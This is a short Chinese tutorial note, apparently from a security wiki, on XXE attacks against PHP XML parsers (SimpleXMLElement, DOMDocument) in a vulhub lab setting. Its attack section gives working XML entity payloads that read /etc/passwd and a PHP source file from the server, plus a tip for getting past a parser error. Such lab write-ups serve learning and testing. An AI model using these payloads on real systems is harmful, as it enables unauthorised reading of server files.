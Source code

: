 # SimpleXMLElement

**参考：**

- https://github.com/vulhub/vulhub/tree/master/php/php_xxe

 -   https://www.php.net/manual/en/class.simplexmlelement.php
 -  https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/

- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test

除了`SimpleXMLElement`类可以进行XXE攻击，现在知道的有如下类和函数

`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`

**利用范围：**

- (libxml<2.9.0, PHP 5, PHP 7)

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

## 前置知识
- [XML](/VUL/XML.md)
- [DTD](/VUL/DTD.md)

## 攻击
post发包并添加http头：

- `Content-Type: text/xml`

payload：
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`?>`，加上就好了。